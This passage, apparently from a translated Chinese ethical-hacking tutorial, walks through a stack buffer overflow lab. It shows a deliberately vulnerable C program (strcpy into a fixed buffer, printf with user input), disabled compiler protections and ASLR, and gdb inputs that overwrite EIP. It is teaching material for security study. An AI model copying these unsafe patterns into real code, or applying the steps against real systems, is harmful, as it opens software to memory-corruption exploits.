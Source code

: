 ```
        #include<stdio.h> 
        #include<string.h> 
        void main(int argc, char *argv[]) 
        { 
            char buf[120]; 
            strcpy(buf, argv[1]); 
            printf(buf); 
        }  
```

这个程序使用了一个有漏洞的方法`strcyp()`。我们将程序保存到一个文件中。

1.  然后我们使用`gcc`编译程序，使用`fno-stack-protector`和`execstack`：

```
 gcc -ggdb name.c -o name -fno-stack-protector -z execstack
```

1.  接下来，我们关闭地址空间随机化：

```
 echo 0 > /proc/sys/kernel/randomize_va_space
```

1.  现在我们使用以下命令在`gdb`中打开我们的程序：

```
 gdb ./name
```

以下截图显示了上述命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/bc9e7142-0794-46bb-bdf8-322a513388d9.png)

1.  接下来，我们使用 Python 使用以下命令输入我们的输入：

```
 r $(python -c 'print "A"*124')
```

以下截图显示了上述命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/985cb9a0-5002-4993-8d7c-8a3e7d86131f.png)

1.  我们可以看到程序崩溃并显示错误`0x41414141`。这意味着我们输入的字符`A`覆盖了 EIP。

1.  我们通过输入`i r`来确认：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/572fdc5f-2ff5-4bba-b6b4-48eef12325d2.png)

1.  这告诉我们 EIP 寄存器的值已经成功被覆盖。

1.  接下来，我们找到覆盖 EIP 的确切字节。我们可以通过在程序中输入不同的字符，然后检查哪个字符覆盖了 EIP 来做到这一点。

1.  因此，我们再次运行程序，这次使用不同的字符：

```
 r $(python -c 'print "A"*90+"B"*9+"C"*25')
```
